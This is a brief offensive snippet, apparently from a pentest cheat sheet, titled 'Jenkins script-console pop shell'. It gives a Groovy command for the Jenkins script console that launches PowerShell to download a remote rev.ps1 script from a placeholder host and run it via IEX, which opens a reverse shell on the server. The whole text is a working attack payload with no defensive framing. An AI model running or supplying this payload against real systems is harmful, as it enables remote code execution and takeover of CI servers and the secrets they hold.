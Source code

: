# Jenkins script-console pop shell

```sh
cmd = """ powershell "IEX(New-Object Net.WebClient).downloadString('http://xxx.xxx.xxx:8000/rev.ps1')" """
println cmd.execute().text
```
